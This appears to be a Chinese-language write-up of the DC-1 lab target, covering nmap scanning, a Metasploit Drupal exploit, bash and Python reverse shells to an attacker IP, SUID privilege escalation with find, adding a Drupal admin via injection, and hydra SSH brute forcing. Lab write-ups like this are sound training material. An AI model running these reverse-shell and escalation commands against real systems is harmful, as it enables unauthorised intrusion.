





## DC-1靶机

#### 收集信息

> nmap 探测结果中rebots泄露了一些文件，端口开放的不多，直接访问80端口
>
> 
>
> 

### 利用metasploit攻击

> 搜索drudal
>
> 
>
> `use 4`
>
> `set rhosts xxxx`
>
> 使用默认的payload反弹shelll
>
> `run`
>
> 
>
> 尝试多种方式反弹shell，获取交互式的shell
>
> > 1. bash反弹shell
> >
> >    * 攻击机监听
> >
> >      `nc -lvnp 1234`
> >
> >    * 靶机设置为
> >
> >      `bash -i >& /dev/tcp/192.168.191.128/1234 0>&1`
> >
> > 2. python反弹shell
> >
> >    * 攻击机
> >
> >      `nc -lvnp 1234`
> >
> >    * 靶机
> >
> >      `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.191.128",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
> >
> > 3. python 半交互式shell
> >
> >    * `python -c 'import pty; pty.spawn("/bin/bash")'`
> >
> >    
> >
> > python -c 'import pty; pty.spawn("/bin/bash")'

### 提权

> ***采用suid提权***
>
> > * 寻找具有suid权限的文件命令
> >
> >   `find / -type f -perm -u=s 2>/dev/null`
> >
> >   > `-perm`:权限设置
> >   >
> >   > `-f`：普通文件
> >
> > * 利用find命令提权
> >
> >   > `touch test`
> >   >
> >   > `find / -type f -name test -exec "whoami" \;`
> >   >
> >   > 

### 获取flag

> 
>
> 
>
> ***flag1***
>
> > 目录下有flag1.txt，提示信息而已
> >
> > 
>
> ***flag4***
>
> 
>
> 根据flag1寻找配置文件，发现文件setting.php
>
> 
>
> 登陆数据库发现了admin加密，利用drupal注入漏洞添加一个admin
>
> ` searchsploit drupal`
>
> 
>
> 
>
> shadow中发现了falg4用户
>
> 利用hydra爆破ssh得到密码
>
> 
>
> ssh登陆得到flag4
>
> 
>
> ***flag3***
>
> 
>
> 得到最终的flag
>
> 
>
> ***

### 总结

> ***靶机难度***：⭐
>
> ***知识点：***
>
> * suid提权
>
> * msf命令
>
> * 反弹shell
>
> * drupal 注入漏洞和命令执行漏洞
>
> * hydra爆破